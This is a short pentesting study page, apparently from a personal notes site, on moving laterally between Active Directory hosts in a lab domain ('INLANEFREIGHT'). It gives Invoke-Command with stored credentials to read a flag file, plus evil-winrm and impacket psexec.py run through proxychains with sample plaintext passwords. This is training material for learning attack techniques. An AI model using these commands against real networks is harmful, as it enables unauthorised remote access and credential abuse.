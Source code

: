 ```yaml
---
title: "AD: Connecting to other hosts"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - active
  - directory
  - linux
  - windows
---
```

# AD: Connecting to other hosts

!!! quotes "Resources"
	- [TheHacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword#forcechangepassword

[Index of Active Directory](active-directory.md)

[Hardening and auditing Active Directory ](hardening-auditing-active-directory.md)

!!! tip "Attacking from linux"
	- [Enumerating Active Directory from Linux](active-directory-from-linux-enumeration.md)
	- [Attacking Active Directory from Linux](active-directory-from-linux-attacks.md)
	- [Lateral Movement in Active Directory from Linux](active-directory-from-linux-lateral-movement.md)
	- [Privileges escalation in Active Directory from Linux](active-directory-from-linux-privilege-escalation.md)

!!! tip "Attacking from Windows"
	- [Enumerating Active Directory from Windows](active-directory-from-windows-enumeration.md)
	- [Active directory: connecting to other hosts](active-directory-connections.md)
	- [Attacking Active Directory from Windows](active-directory-from-windows-attacks.md)
	- [Privileges escalation in Active Directory from Windows](active-directory-from-windows-privilege-escalation.md)



## Invoke-Command

Invoke-Command allows the executions of commands in remote hosts. We can use a "nested" Invoke-Command to send credentials (after creating a PSCredential object) with every request. 


```powershell
# 1. Now we will create a Secure-string object with the credential of the user svc_sql. Then we will use Invoke-Command to run a command in the host MS01
# 1. We create a SecureString Object with our creds
$SecPassword = ConvertTo-SecureString '$password' -AsPlainText -Force
# Example: 
# $SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('$domain\$userSamAccountName', $SecPassword)
# Example:
# $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

# 2. We send the nested Invoke-Command
Invoke-Command -ComputerName "$hostname.$domainName" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
# Example: 
# Invoke-Command -ComputerName "MS01.INLANEFREIGHT.LOCAL" -Credential $cred -ScriptBlock { Get-Content "C:\Users\Administrator\Desktop\flag.txt" }
``` 


## Enter-PSSession


## Evil-Winrm

With a pivot host and chisel + proxychains

```powershell
proxychains evil-winrm -i $ip -u $user -p $password
```


## psexec.py

With a pivot host and chisel + proxychains 

```powershell
proxychains tools/impacket/examples/psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
```

mstsc.exe 